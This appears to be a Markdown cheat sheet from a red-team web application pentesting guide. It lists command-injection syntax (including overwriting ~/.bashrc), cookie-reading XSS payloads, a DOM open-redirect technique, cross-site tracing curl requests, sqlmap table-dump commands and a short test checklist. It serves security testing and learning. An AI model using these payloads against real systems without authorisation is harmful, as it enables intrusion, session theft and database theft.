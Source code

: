 # Red Team

## Table of Contents
1. [Information Gathering](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#information-gathering)
2. [Exploitation](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#exploitation)
3. [Pentest Checklist](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/Web%20Application.md#pentest-checklist)


## Information Gathering
- **[Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Networks/Web%20Application.md)**
- **[Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**

<br />

## Exploitation

### 1) Command Injection

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

### 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- [3_Exploitation/XSS.md](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/XSS.md)

#### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

#### Web Server with TRACE/TRACK enabled (XST)
- Details: [https://owasp.org/Cross_Site_Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)
- "XST could be used as a method to steal user’s cookies via XSS"
- "This is possible even if the cookie has the “HttpOnly” flag set or exposes the user’s Authorization header"
- `curl -X TRACE www.example.org`
- `curl -X TRACE -H "Cookie: name=value" www.example.org`

### 3) SQLi

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```

## Pentest Checklist
Vulnerability | Test Method
------------- | -----------
Insufficient Cache Controls | Observe headers on pages containing sensitive data
Username Enumeration | Login valid user/invalid password – then compare. Login invalid user/invalid password – then compare
Session Cookies Not Marked Secure | Observe response headers after authentication
